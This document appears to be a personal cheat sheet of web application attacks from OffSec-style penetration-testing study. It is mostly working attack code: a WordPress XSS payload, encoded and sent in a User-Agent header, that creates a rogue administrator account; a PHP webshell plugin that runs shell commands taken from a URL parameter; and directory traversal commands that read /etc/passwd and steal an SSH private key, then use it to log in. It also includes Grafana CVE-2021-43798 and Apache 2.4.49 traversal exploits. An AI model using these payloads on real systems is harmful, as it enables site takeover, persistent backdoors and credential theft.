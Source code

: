 
# Web Application Attacks

## XSS

The most common special characters used for this purpose include:
```< > ' " { } ;```

### WordPress

#### gather nonce

```javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

#### create user

```javascript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

#### JS Compress

<https://jscompress.com/>

#### convert to UTF-16

```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

#### execute

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

#### add plugin

<https://www.jckhmr.net/create-a-wordpress-webshell-plugin/>

```php
<?php
/**
* Plugin Name: WonderfulWebshell
* Plugin URI: https://github.com/jckhmr/wonderfullwebshell
* Description: Wordpress webshell used for demo purposes only
* Version: 1.0
* Author: jckhmr
* Author URI: https://jckhmr.net
* License: https://nosuchlicense
*/

if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

#### wpscan

<https://wpscan.com/>

```bash
wpscan --url http://
```

## Directory Traversal

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

chmod 400 id_rsa
ssh offsec@192.168.152.16 -p 2222 -i id_rsa
```

### Grafana

#### CVE-2021-43798

##### linux

<https://www.exploit-db.com/exploits/50581>

```bash
python3 CVE-2021-43798.py -H http://192.168.152.16:3000
Read file > /etc/passwd
```

##### windows

```bash
python3 CVE-2021-43798.py -H http://192.168.152.193:3000 
Read file > \\users\\install.txt

curl --path-as-is http://192.168.152.193:3000/public/plugins/text/..\\..\\..\\..\\..\\..\\..\\..\\Users\\install.txt
curl --path-as-is http://192.168.152.193:3000/public/plugins/text/../../../../../../../../../Users/install.txt
curl --path-as-is http://192.168.152.193:3000/public/plugins/text/../../../../../../../../..\\Users\\install.txt
```

### Apache 2.4.49

```bash
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

## File Inclusion

## File Upload

## Command Injection

## SQL Injection
